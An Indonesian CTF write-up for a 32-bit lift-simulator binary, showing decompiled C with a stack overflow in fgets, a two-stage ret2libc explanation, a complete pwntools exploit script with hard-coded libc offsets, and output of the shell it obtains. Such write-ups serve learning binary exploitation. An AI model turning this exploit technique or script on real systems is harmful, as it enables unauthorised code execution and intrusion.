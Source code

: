 ```yaml
---
title: AgriHack 0x2 - Lift Rektorat Writeup
url: 348.html
id: 348
categories:
  - ctf-writeup
date: 2017-11-24 00:38:01
tags:
---
```


> _**Lift Rektorat (300 pts)**_ Kamu sedang berada direktorat karena kamu hendak menemui rektor karena kamu ditunjuk menjadi kepala keamanan cyber di IPB. Tiba-tiba terjadi sebuah insiden yang membuat kamu tersadar, bahwa bahkan lift rektorat memiliki celah untuk dieksploitasi. Tunjukkan bagaimana kamu mengeksploitasi celah tersebut. -- binary --

_**Solusi:**_ Diberikan binary ELF 32-bit dengan NX bit enabled dan tanpa stack canary. Dapat di-_ramal-_kan sekiranya soal ini di_solve_ dengan return to libc karena stack sendiri tidak dapat dieksekusi.

```C
unsigned int danger()
{
  char s; // [esp+Eh] [ebp-4Ah]

  strcpy(aSelamatDatangD, "|            Peringatan Bahaya Lift Berhenti Berfungsi                |");
  strcpy(aSilahkanMasuka, "|              Silahkan Kirimkan Pesan Kepada Petugas                 |");
  cetak(0);
  puts("|--------------------||-------------||------------||------------------|");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|____________________||-------------||------------||__________________|");
  printf("Pesan : ");
  fgets(&s, 200, stdin);
  strcpy(aSelamatDatangD, "|                        Pesan Terkirim                               |");
  strcpy(aSilahkanMasuka, "|            Silahkan Menunggu Sejenak dan Tetap Tenang               |");
  cetak(0);
  puts("|--------------------||-------------||------------||------------------|");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|____________________||-------------||------------||__________________|");
  return sleep(5u);
}

int __cdecl main(int argc, const char \*\*argv, const char \*\*envp)
{
  int v3; // ST08_4
  int v4; // ST0C_4
  int v6; // [esp-4h] [ebp-28h]
  int v7; // [esp+0h] [ebp-24h]
  char v8; // [esp+7h] [ebp-1Dh]
  int i; // [esp+8h] [ebp-1Ch]
  int *v10; // [esp+14h] [ebp-10h]

  v10 = &argc;
  setvbuf(stdout, 0, 2, 0);
  cetak(0);
  if ( !__isoc99_scanf("%d", &v7, v3, v4, v6, v7) || v7 > 12 )
  {
    strcpy(aSelamatDatangD, "|                          Mohon Maaf                                 |");
    strcpy(aSilahkanMasuka, "|                 Lantai yang Anda Masukan Salah                      |");
    cetak(0);
    puts("|--------------------||-------------||------------||------------------|");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|____________________||-------------||------------||__________________|");
    exit(0);
  }
  do
    v8 = getchar();
  while ( v8 != 10 && v8 != -1 );
  strcpy(aSelamatDatangD, "|                     Bogor Agricultural University                   |");
  strcpy(aSilahkanMasuka, "|                     Searching and Serving The Best                  |");
  for ( i = 1; i <= v7; ++i )
  {
    sleep(2u);
    byte_804B0C4[5 * i - 2] = ' ';
    byte_804B0C4[5 * i + 2] = ' ';
    byte_804B0C4[5 * (i + 1) + 2] = '|';
    byte_804B0C4[5 * (i + 1) - 2] = '|';
    cetak(i);
    puts("|--------------------||-------------||------------||------------------|");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|____________________||-------------||------------||__________________|");
    if ( i == 7 )
    {
      danger();
      strcpy(aSelamatDatangD, "|                     Bogor Agricultural University                   |");
      strcpy(aSilahkanMasuka, "|                     Searching and Serving The Best                  |");
    }
  }
  cetak(i - 1);
  puts("|--------------------||                           ||------------------|");
  puts("|                    ||                           ||                  |");
  puts("|                    ||                           ||                  |");
  puts("|                    ||                           ||                  |");
  puts("|                    ||                           ||                  |");
  puts("|                    ||                           ||                  |");
  puts("|                    ||                           ||                  |");
  puts("|____________________||                           ||__________________|");
  return 0;
}
```

Terlihat kalau dalau dari source code, fungsi `danger` ada bug klasik stack buffer overflow pada fungsi fgets, yang me-overflow- `char s`. `danger` sendiri dipanggil saat iterasi i ke-7, user juga dapat mengontrol sampai berapa iterasi dilaksanakan. Lanjut ke permasalahan kedua, saved EIP bisa dikontrol dengan stack buffer overflow, tapi mau return kemana? return2libc perlu leaked libc address. Nah, teringat kalau binary ini adalah 32-bit jadi gaperlu repot-repot setup ROP yang terlihat magis, tinggal push GOT puts ke stack, trus print dengan menggunakan PLT puts _lagi_. Agar exploit berlanjut terus jangan lupa untuk return ke fungsi `danger` lagi untuk lanjut ke Stage ke-2 yakni return ke system dan exec /bin/sh. system address bisa dikalkulasi dengan bantuan libcdb. Dengan demikian strategi yang bisa ditulis pada code,

1.  Leak libc address, dengan push alamat suatu GOT lalu memanggil puts dan kembali ke danger
2.  Kalkulasi system dan /bin/sh dari libc address
3.  Input buffer == junk[78] + system + char junk[4] +  binsh
4.  profit

Berikut codenya,

```python
#!/usr/bin/python2
from pwn import *
r = process(['./lift_rektorat'])
lift = ELF('./lift_rektorat')

log.info('--------- STAGE 1 ---------')

buf = "A" * 78 #junk
buf += p32(lift.plt['puts']) # call puts
buf += p32(lift.symbols['danger']) # return back to danger
buf += p32(lift.got['puts']) # GOT

r.sendline("7") # control the iteration
r.sendline(buf)
r.recvuntil('Pesan Terkirim')
r.recvuntil('|____________________||-------------||------------||__________________|')
r.recvline()

log.info('--------- STAGE 2 ---------')

libc_puts = int(u32(r.recvn(4))) # leaked libc address
# local libc, saelo's vm ctfbox, Ubuntu 14.04.5 LTS, vagrant
puts_offset = 0x00064da0
system_offset = 0x0003fe70
str_bin_sh_offset = 0x0015ff0c

libc_base = libc_puts - puts_offset
libc_system = libc_base + system_offset
libc_bin_sh = libc_base + str_bin_sh_offset

buf = "A" * 78 # junk
buf += p32(libc_system)
buf += "DEAD" # junk
buf += p32(libc_bin_sh)

r.sendline(buf)
r.interactive()
```

_**$profit**_

```
[+] Starting local process './lift_rektorat': pid 5802
[*] '/home/vagrant/ctf/agrihack0x2/lift_rektorat'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] --------- STAGE 1 ---------
[*] --------- STAGE 2 ---------
[*] Switching to interactive mode
\x86\x84\x0�    ]��a��`�
[..redacted..]
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
$ whoami
vagrant
```

_**Solved!**_

* * *

Sedikit cerita dibalik penemuan flag pada soal kali ini, sebelum saya mengerjakan soal ini sendiri, saya belum paham apa itu ROP dan berbagai macam permasalahan pada soal disini. **Lesson learned:** 32-bit calling convention, ret2libc, simple ROP.